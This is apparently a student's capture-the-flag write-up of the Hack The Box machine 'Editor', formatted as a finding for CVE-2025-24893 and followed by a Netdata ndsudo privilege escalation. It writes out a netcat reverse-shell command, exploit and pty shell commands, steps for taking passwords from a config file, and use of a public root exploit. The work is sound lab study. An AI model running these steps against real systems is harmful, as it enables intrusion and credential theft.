


# CVE-2025-24893 — Remote Code Execution

## Description

Editor.htb is vulnerable to unauthenticated remote code execution (RCE).

## Impact

Medium impact: allows access to sensitive information on the server which breaches CIA prinicples of confientiality. Ask mentor if can delete files?

## Likelihood

High: this vulnerablity does not require authentication to exploit.

## Evidence 
### Replication steps 

 

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 

 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  

## Replication steps 
1. ` ls -l /usr/bin/pkexec /bin/pkexec 2>/dev/null || true`
2. google /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo vulnerablity 
3. Open https://github.com/T1erno/CVE-2024-32019-Netdata-ndsudo-Privilege-Escalation-PoC
4. Copy payload.c and CVE-2024-32019.sh
5. Create nvme file `gcc -static payload.c -o nvme -Wall -Werror -Wpedantic to create` 
6. transfer to ssh shell
7. run sh CVE-2024-32019.sh to get root shell 

 

